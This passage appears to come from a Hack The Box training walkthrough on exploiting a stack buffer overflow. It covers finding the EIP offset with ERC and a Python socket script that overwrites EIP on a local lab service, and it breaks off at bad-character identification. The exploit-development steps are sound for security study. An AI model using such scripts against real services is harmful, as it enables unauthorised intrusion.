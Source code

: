 ![[HTB Solutions/Others/z. images/f8896f4dc7b37d7f12d18212cb405632_MD5.jpg]]

Students need to find the ASCII representation of the binary pattern. Thus, they need to right-click on the `EIP` value and select `Modify value`, to find out that the ASCII representation is `pA6p`:

![[HTB Solutions/Others/z. images/d9c5e2703a6e9204ffedd78eb2f2bc9f_MD5.jpg]]

![[HTB Solutions/Others/z. images/43681acad5ed0a8ea0c3f2be530349ec_MD5.jpg]]

Subsequently, students need to use `ERC` to determine the exact position of `pA6p` within the Ascii pattern, finding it to be `469`:

Code: powershell

```powershell
ERC --pattern o pA6p
```

![[HTB Solutions/Others/z. images/10fa9eaf459897b05644b0ddbd5d1382_MD5.jpg]]

Afterward, students need to write a Python script that will control the `EIP`, first testing it with inserting 4 `B` characters:

Code: python

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 21449

def EIPControl():
    offset = 469
    buffer = b"A" * offset
    EIP = b"B" * 4
    payload = buffer + EIP
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

EIPControl()
```

![[HTB Solutions/Others/z. images/c786a7bf185d6855de4038084796777a_MD5.jpg]]

After running the script, students will notice that the `EIP` has been overwritten with 4 `B` characters:

![[HTB Solutions/Others/z. images/a06df7dfbaff616dd8356e2f33436176_MD5.jpg]]

Now, students need to identify bad characters to avoid them in the shellcode and return addresses. First, students need to generate a byte array with `ERC`:
